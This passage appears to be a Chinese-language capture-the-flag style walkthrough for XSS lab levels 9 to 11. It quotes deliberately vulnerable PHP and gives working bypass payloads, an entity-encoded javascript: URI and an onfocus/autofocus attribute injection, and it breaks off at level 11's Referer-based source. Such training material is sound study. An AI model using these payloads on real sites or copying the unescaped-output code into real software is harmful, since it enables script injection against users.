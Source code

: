 ```php
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```
```php
if(false===strpos($str7,'http://'))
{
  echo '<center><BR><a href="您的链接不合法？有没有!">友情链接</a></center>';
        }
else
{
  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
}
```

过滤和上一关一样,但判断是否有 `http://`

测试 `javascript:alert("http://")`,将其实体编码,构造 `javasc&#114;ipt:alert(&#34;http://&#34;)`

---

# level 10

```php
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```
```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
```

页面中存在3个隐藏的 input 输入框,其中 t_sort 是传参的,直接在前端修改代码让他显示出来,输入 payload,构造一个 input 的 xss: `<input value=xss onfocus=alert(1) autofocus>`

payload: `test"onfocus=alert(1) autofocus type="text"`

---

# level 11

```php
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
```
```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
```